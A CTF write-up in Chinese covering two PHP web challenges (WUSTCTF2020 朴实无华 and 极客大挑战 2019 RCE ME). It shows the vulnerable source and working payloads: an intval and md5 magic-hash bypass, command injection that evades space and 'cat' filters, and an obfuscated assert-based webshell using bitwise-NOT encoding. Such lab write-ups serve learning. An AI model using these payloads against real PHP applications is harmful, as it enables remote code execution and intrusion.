

## [WUSTCTF2020]朴实无华

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

1. `intval`处理不当

传入`1e10`,`intval($num)`截断处理成`1<2020`,而`intval($num+1)`处理成`1e10+1>2021`

2. `0e`,`md5(0e215962017)=0e291242476940776845150308577824`
3. 不能用`cat`那就用`tac`或者`strings`或者`ca\t`,注意参数中不能出现空格,因此用`\t`代替即`0x09`

payload`fl4g.php?num=1e10&md5=0e215962017&get_flag=tac%09fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`


## [极客大挑战 2019]RCE ME

> 类似于无参数RCE

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
?>
```

`[~%8F%97%8F%96%91%99%90][!%FF]();`执行`phpinfo();`

读出disable_functions

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

`assert`并没有被过滤,因此可以利用`assert`来构造webshell

```php
#assert(end(getallheaders()));
var_dump(urlencode(~"assert"));
var_dump(urlencode(~"end"));
var_dump(urlencode(~"getallheaders"));
#string(18) "%9E%8C%8C%9A%8D%8B"
#string(9) "%9A%91%9B"
#string(39) "%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C"
```

payload`?code=(~%9E%8C%8C%9A%8D%8B)((~%9A%91%9B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));`

扫描当前目录


扫描根目录



有`/flag`也有`/readflag`大概率是运行readflag来读,而flag无法直接读取

`readfile("/flag");`无回显

`readfile("/readflag");`有回显

说明`/flag`无法直接读取